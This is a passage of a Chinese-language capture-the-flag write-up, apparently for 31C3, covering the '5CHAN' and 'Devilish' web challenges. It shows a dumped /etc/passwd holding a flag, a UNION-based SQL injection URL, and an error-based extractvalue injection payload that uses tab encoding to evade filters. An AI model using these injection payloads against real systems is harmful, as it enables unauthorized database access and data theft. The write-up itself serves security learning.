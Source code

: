 ```
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
user:x:1000:1000:user,,,:/home/user:/bin/bash
flag:x:1001:1001:31C3_b45fa9e4d5969e3c524bdcde15f84125:/home/flag:
复制代码
```

# 0x04 5CHAN

* * *

```
5CHAN? Never heard of this image board, but they have exactly what we need. The picture we’re looking
for is not for public, so can you get it?

http://188.40.18.89/
复制代码
```

首先访问一下http://188.40.18.89/robots.txt，会发现一个backup的目录，下载下来得到源码。

看下代码很容易发现一个sql注入漏洞，构造如下的语句，就可以的到Flag

```
http://188.40.18.89/?page=pic&id=9 union select * from pictures  where id=9 -- a
复制代码
```

# 0x05 Devilish

* * *

> It’s some devilish community public portal, we’re pretty sure there’s something else out there, a private portal maby, we’d like to know the secret behind it.
> 
> http://188.40.18.70/

首先找到一个SQl注入当做突破口。

```
http://188.40.18.70/PROFILE/54\/KiTTyKiTTy 
复制代码
```

在页面的注释里面可以找到具体执行的SQL语句

```
<!--SELECT * FROM users WHERE id_user='54\' AND Us3rN4m3='KiTTyKiTTy'--> 
复制代码
```

注入点过滤了很多东西，经过尝试XML报错的方式是可以利用的。

```
http://188.40.18.70/PROFILE/56\/-extractvalue(1,concat(0x5c,(select%09Us3rN4m3%09from%09users%09limit%091)))--%09 
复制代码
```
